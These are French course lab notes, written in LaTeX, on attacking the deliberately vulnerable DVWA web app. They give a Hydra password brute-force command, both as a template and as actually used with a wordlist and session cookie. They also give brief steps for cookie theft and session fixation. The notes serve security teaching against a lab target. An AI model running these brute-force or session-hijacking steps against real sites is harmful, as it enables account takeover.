 \documentclass[a4paper]{article}
\begin{document}
\section{Labo 6 -- DVWA (1)}





\begin{itemize}


\item Brute forcing:
\begin{example} \begin{itemize}

\item Commande générale:
\begin{example} \begin{verbatim}
sudo hydra <ip_dvwa> -l <login> -P <fichier_de_mdp> http-get-form
"<path>
:<paramètre>=^USER&<paramètre>=^PASS&<paramètre>:<valeur>
:F=<signe_de_fail>
:H=Cookie:<cookie>=<valeur>;<cookie>=<valeur>"
\end{verbatim} \end{example}

\item Commande utilisée:
\begin{example} \begin{verbatim}
sudo hydra <ip_dvwa> -l admin -P /usr/share/wordlists/most-common.txt http-get-form
"/dvwa/vulnerabilities/brute/
:username=^USER^&password=^PASS^&Login=Login
:F=Username and/or password incorrect.
:H=Cookie: security=low; PHPSESSID=<cookie>"
\end{verbatim} \end{example}

\end{itemize}\end{example}


\item Cookie tampering:
\begin{example} \begin{itemize}
    \item Voler le cookie PHPSESSID d'une autre session.
    \item Si on modifie le cookie, on perd la session.
\end{itemize} \end{example}


\item Session fixation:
\begin{example} \begin{enumerate}
    \item aller sur \texttt{/DVWA/login.php} dans une fenêtre normale et obtenir le cookie phpsessid
    \item se connecter sur \texttt{/DVWA/login.php} dans une fenêtre privée avec le cookie phpsessid
    \item on a accès à la session dans la fenêtre privée
\end{enumerate} \end{example}



\end{itemize}
\end{document}
